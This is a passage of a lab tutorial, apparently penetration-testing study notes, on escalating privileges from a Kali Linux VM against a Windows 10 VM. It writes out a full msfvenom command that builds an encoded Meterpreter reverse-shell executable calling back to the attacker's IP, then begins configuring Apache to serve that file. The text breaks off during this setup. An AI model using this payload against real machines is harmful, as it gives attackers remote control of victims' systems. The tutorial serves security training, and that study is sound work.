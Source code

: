# Escalating Privileges

Privilege Escalation is the demonstration of misusing a bug, configuration imperfection, or design oversight in a working framework or programming application to increase lifted access to assets that are regularly shielded from an application or client.

Once attackers gain access to the target system, they start looking for different ways to escalate their privilege in the system. They can exploit vulnerability, design flaw or configuration oversight in the OS or software applications on the target system to gain elevated access to resources that are normally protected from an application or user. The privilege escalation can be **vertical** or **lateral**.

### Objectives
* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.

### Requisites
* Kali Linux virtual machine.
* Windows 10 virtual machine.

## Create a Backdoor
To create the malicious executable file, type this command and put your Kali IP address on `LHOST` option:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.0.2.42 -f exe > Desktop/Exploit.exe`

This command will create the Windows executable file named **Exploit.exe** and will be saved on the Kali **desktop**.

![exploit.exe](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/62f3153c4c87084931d3ec529bde0add9c8bf888/exploitexe.png)

## Share the Exploit.exe file
**First** of, we need to setup the apache configuration and the shared folder.

### Apache configuration

_If you didn't have apache2 installed, run **apt-get install apache2**._

Navigate to the apache2 folder, open the **apache2.conf** configuration file, and add a new line:<br>
`vim /etc/apache2/apache2.conf`

Add a new line with the command: `servername localhost` and save the file.

![apache.conf](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/1523fa1d4fdbc682f9908f33a01fbc1e08ba283c/apacheconf.png)

Create a new directory inside html folder:<br>
`mkdir /var/www/html/share/`<br>

Change the [mode](https://www.tutonics.com/2012/12/linux-file-permissions-chmod-umask.html) for the share to **755**:<br>
`chmod -R 755 /var/www/html/share/`<br>
